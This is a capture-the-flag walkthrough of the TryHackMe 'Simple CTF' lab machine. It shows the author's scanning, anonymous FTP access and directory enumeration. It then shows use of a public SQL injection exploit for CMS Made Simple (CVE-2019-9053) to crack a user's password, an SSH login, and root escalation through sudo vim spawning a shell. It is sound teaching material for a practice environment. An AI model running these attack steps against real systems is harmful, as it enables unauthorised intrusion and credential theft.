 # Simple CTF [THM](https://tryhackme.com/room/easyctf)

Let see what's running on this machine 

```bash
nmap -sV -A -Pn 10.10.219.139

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-25 23:33 GMT
Nmap scan report for 10.10.219.139
Host is up (0.027s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:[ATTACKER_IP]
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.05 seconds
```

### 1. How many services are running under port 1000?
2

### 2. What is running on the higher port?
ssh

  
---
  

We know know that we have SSH, HTTP and FTP on this machine.
Let see what we can retrieve while checking for services. 

```bash
ftp 10.10.219.139
Connected to 10.10.219.139.
220 (vsFTPd 3.0.3)
Name (10.10.219.139:clobee): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls -ail
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.

ftp> cd pub
250 Directory successfully changed.

ftp> ls -ail
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.

ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (964.9368 kB/s)

ftp> exit
221 Goodbye.
```

```bash
cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

Using Gobuster we were able to discover few folders

```bash
gobuster dir -u http://10.10.219.139:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

/simple (Status: 301)
```
```bash
gobuster dir -u http://10.10.219.139:80/simple -w /usr/share/wordlists/dirb/common.txt -x .bak, .sql, .log

/.hta (Status: 403)
/.hta. (Status: 403)
/.hta.bak (Status: 403)
/.htaccess (Status: 403)
/.htaccess.bak (Status: 403)
/.htaccess. (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.bak (Status: 403)
/.htpasswd. (Status: 403)
/admin (Status: 301)
/assets (Status: 301)
/doc (Status: 301)
/index.php (Status: 200)
/lib (Status: 301)
/modules (Status: 301)
/tmp (Status: 301)
/uploads (Status: 301)
``` 

Visiting `http://10.10.219.139:80/simple` we know that we are working with CMSMadeSimple (maybe version 2.2.8).  

Let search the exploit database for any information about this CMS version

```bash
searchsploit cms made simple 2.2.8

----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                                                             | php/webapps/46635.py
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```bash
searchsploit -p 46635

  Exploit: CMS Made Simple < 2.2.10 - SQL Injection
      URL: https://www.exploit-db.com/exploits/46635
     Path: /usr/share/exploitdb/exploits/php/webapps/46635.py
File Type: Python script, ASCII text executable, with CRLF line terminators
```

```bash
searchsploit -m 46635

  Exploit: CMS Made Simple < 2.2.10 - SQL Injection
      URL: https://www.exploit-db.com/exploits/46635
     Path: /usr/share/exploitdb/exploits/php/webapps/46635.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/clobee/tmp/46635.py
```

### 4. What's the CVE you're using against the application?

```bash
head /home/clobee/tmp/46635.py

#!/usr/bin/env python
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053
```

### 5. To what kind of vulnerability is the application vulnerable?
SQL Injection (SQLI)


### 6. What's the password?

```bash
python 46635.py -u http://10.10.219.139:80/simple --wordlist=/usr/share/wordlists/rockyou.txt -c


[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: xxxxx
```

### 7. Where can you login with the details obtained?

The user found works for `http://simple_ctf.thm/simple/admin`
and also for SSH. 

This confirm what we found earlier during the FTP enumeration.

### 8. What's the user flag?

```bash
ssh mitch@10.10.219.139 -p 2222

The authenticity of host '[10.10.219.139]:2222 ([10.10.219.139]:2222)' can't be established.
ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.219.139]:2222' (ECDSA) to the list of known hosts.
mitch@10.10.219.139's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190

$ id
uid=1001(mitch) gid=1001(mitch) groups=1001(mitch)

$ cat /home/mitch/user.txt                                                                                                             
xxxxx
```

### 9. Is there any other user in the home directory? What's its name?

```bash
$ ls /home                                                                                                                             
mitch  xxxx
```

### 10. What can you leverage to spawn a privileged shell?

```bash
$ sudo -l

User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

$ sudo /usr/bin/vim -c ':!/bin/sh'
# id
uid=0(root) gid=0(root) groups=0(root)
```

### 11. What's the root flag?

```bash
# ls -ail /root/
total 28
1044482 drwx------  4 root root 4096 aug 17  2019 .
      2 drwxr-xr-x 23 root root 4096 aug 19  2019 ..
1044484 -rw-r--r--  1 root root 3106 oct 22  2015 .bashrc
 261530 drwx------  2 root root 4096 aug 17  2019 .cache
 261525 drwxr-xr-x  2 root root 4096 aug 17  2019 .nano
1044485 -rw-r--r--  1 root root  148 aug 17  2015 .profile
1044582 -rw-r--r--  1 root root   24 aug 17  2019 root.txt

# cat /root/root.txt
XXXXX
```
